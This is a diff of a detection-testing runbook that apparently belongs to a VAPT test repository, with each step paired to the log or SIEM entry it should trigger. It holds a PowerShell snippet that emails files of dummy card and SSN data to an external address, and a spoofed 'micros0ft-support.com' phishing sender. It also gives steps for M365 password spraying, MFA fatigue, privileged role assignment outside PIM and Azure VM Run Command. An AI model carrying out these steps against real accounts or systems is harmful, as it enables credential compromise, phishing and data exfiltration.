

Before and after one commit to DrHayabusa/HELPAG-VAPT-Test-Site, a Markdown page: docs/tda/TDA_MANUAL_RUNBOOK_ALL_USECASES.md, the part around one of its changes. Shown at 90% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/docs/tda/TDA_MANUAL_RUNBOOK_ALL_USECASES.md
+++ b/docs/tda/TDA_MANUAL_RUNBOOK_ALL_USECASES.md
@@ -255,54 +255,53 @@ Send-MailMessage -From "security-alert@micros0ft-support.com" -To "<victim@custo
 **Requires:** a DLP solution watching email/upload/USB.
 **How:**
 ```powershell
-$dir="C:\TDA\dlp"; New-Item -ItemType Directory -Force $dir | Out-Null
+$dir="$env:TEMP\dlp"; New-Item -ItemType Directory -Force $dir | Out-Null
 1..5 | ForEach-Object {
 @"
 Credit Card: 4111 1111 1111 1111
 SSN: 123-45-6789
 IBAN: GB82 WEST 1234 5698 7654 32
 "@ | Set-Content "$dir\sensitive_$_.txt" }
-# then send each out (repeat to create multiple violations):
 Get-ChildItem $dir | ForEach-Object { Send-MailMessage -From "<you>" -To "<external@test.com>" -Subject "data" -Attachments $_.FullName -SmtpServer "<SMTP_SERVER>" }
 ```
 **Validate:** DLP console/SIEM shows ≥2 violations for the same user.
 
 ---
 
-# GROUP E — Cloud: Azure / M365 (via BROWSER — no Az CLI download needed)
+# GROUP E — Cloud: Azure / M365 (via BROWSER — no Az CLI download)
 
-> Since downloads are blocked, do all cloud tests in the **browser** (Azure Portal
-> / Entra portal / Azure Cloud Shell). No local install required.
+> Downloads are blocked, so do all cloud tests in the **browser** (Azure Portal /
+> Entra portal / Azure Cloud Shell). No local install needed.
 > **Requires:** an Azure/M365 test account with the right role.
 
 ## UC0458 — Azure Activity CRUD Operation Detected
-**What to do:** create/modify/delete an Azure resource in the portal.
-**How:** `https://portal.azure.com` → Resource groups → **Create** a group `tda-test-rg` → add a **tag** (update) → **Delete** the group. (Or use **Cloud Shell** in the portal: `az group create/update/delete` — runs in browser, nothing installed.)
-**Validate:** Azure Activity Log / Sentinel shows the create/update/delete.
+**What to do:** create/modify/delete an Azure resource.
+**How:** `https://portal.azure.com` → Resource groups → **Create** `tda-test-rg` → add a **tag** (update) → **Delete** it. (Or portal **Cloud Shell**: `az group create/update/delete` — runs in browser.)
+**Validate:** Azure Activity Log / Sentinel shows create/update/delete.
 
 ## UC0215 — Explicit MFA Deny
 **What to do:** sign in with a test account and DENY the MFA prompt.
-**How:** open `https://portal.office.com` in a private window → sign in as the test user → at the Authenticator push, tap **Deny / "No, it's not me"** (or reject).
-**Validate:** Entra sign-in logs show MFA denied / user declined.
+**How:** `https://portal.office.com` (private window) → sign in as test user → at the push, tap **Deny / "No, it's not me"**.
+**Validate:** Entra sign-in logs show MFA denied.
 
 ## UC0327 — Azure AD Privileged Access Outside PIM
-**What to do:** assign/use a privileged role directly instead of activating via PIM.
-**How:** Entra portal → Roles and administrators → assign e.g. **User Access Administrator** to the test user as a **permanent** (non-PIM) assignment, then perform an admin action.
-**Validate:** Entra audit log shows privileged assignment/action without a PIM activation.
+**What to do:** assign/use a privileged role directly instead of via PIM.
+**How:** Entra portal → Roles and administrators → assign **User Access Administrator** to the test user as a **permanent** (non-PIM) assignment, then do an admin action.
+**Validate:** Entra audit log shows privileged action without a PIM activation.
 
 ## Password Spraying M365
-**What to do:** try one password across several M365 accounts.
-**How (no tool download):** in a browser, attempt sign-in at `https://login.microsoftonline.com` with the same password across a few agreed test accounts; or run from Cloud Shell if scripting is allowed. Keep it small to avoid lockouts.
+**What to do:** try one password across a few M365 accounts.
+**How:** browser → `https://login.microsoftonline.com` → attempt sign-in with the same password across agreed test accounts (keep small to avoid lockouts).
 **Validate:** Entra sign-in logs — multiple failed logons across accounts from one source.
 
 ## Malicious MFA Takeover
-**What to do:** simulate MFA fatigue or register a new MFA method on a test account.
-**How:** repeatedly attempt sign-in to spam Authenticator push prompts, or go to `https://aka.ms/mfasetup` and add a new MFA method to the test account.
-**Validate:** Entra logs show repeated MFA requests or a new security-info registration.
+**What to do:** simulate MFA fatigue or register a new MFA method.
+**How:** repeatedly attempt sign-in to spam push prompts, or `https://aka.ms/mfasetup` → add a new MFA method to the test account.
+**Validate:** Entra logs show repeated MFA requests or new security-info registration.
 
 ## Abusing Virtual Machines
-**What to do:** run a command on an Azure VM via the control plane (Run Command).
-**How:** Azure Portal → the VM → **Run command** → **RunPowerShellScript** → enter `whoami; hostname` → Run. (No local tooling.)
+**What to do:** run a command on an Azure VM via the control plane.
+**How:** Azure Portal → the VM → **Run command** → **RunPowerShellScript** → `whoami; hostname` → Run.
 **Validate:** Activity log shows `runCommand` on the VM.
 
 ---
````
Also changed, not shown: other parts of docs/tda/TDA_MANUAL_RUNBOOK_ALL_USECASES.md (+41 -41 lines).
